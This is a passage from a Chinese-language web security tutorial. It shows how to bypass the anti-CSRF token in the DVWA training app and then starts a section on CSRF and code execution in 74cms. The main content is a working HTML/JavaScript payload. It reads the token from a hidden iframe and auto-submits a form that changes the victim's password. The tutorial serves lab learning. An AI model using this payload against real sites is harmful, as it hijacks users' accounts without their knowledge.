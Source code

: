 generateSessionToken();

要绕过Anti-CSRF token机制，首先要获取token，再使用这个token进行修改密码。
然后构造以下代码

```
<html>
<body>
<script type="text/javascript">
    function attack()
  {
   document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
  document.getElementById("transfer").submit(); 
  }

</script>
<iframe src="http://192.168.1.108/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">

</iframe>
<body onload="attack()">

  <form method="GET" id="transfer" action="http://192.168.1.108/dvwa/vulnerabilities/csrf">

   <input type="hidden" name="password_new" value="hongri">

    <input type="hidden" name="password_conf" value="hongri">

   <input type="hidden" name="user_token" value="">

  <input type="hidden" name="Change" value="Change">

   </form>

</body>
</html>
```

访问后就立即修改密码
[![img](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/20190831100147-4a4ff512-cb93-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190831100147-4a4ff512-cb93-1.png)

### 1.2.2.5 参考文章

https://www.freebuf.com/articles/web/118352.html

# 1.2.3 CSRF漏洞利用实例之骑士cms

### 1.2.3.1 安装步骤

骑士cms下载地址：http://www.74cms.com/download/load/id/155.html
漏洞环境：windows、phpstudy
存在漏洞：POS型CSRF、代码执行
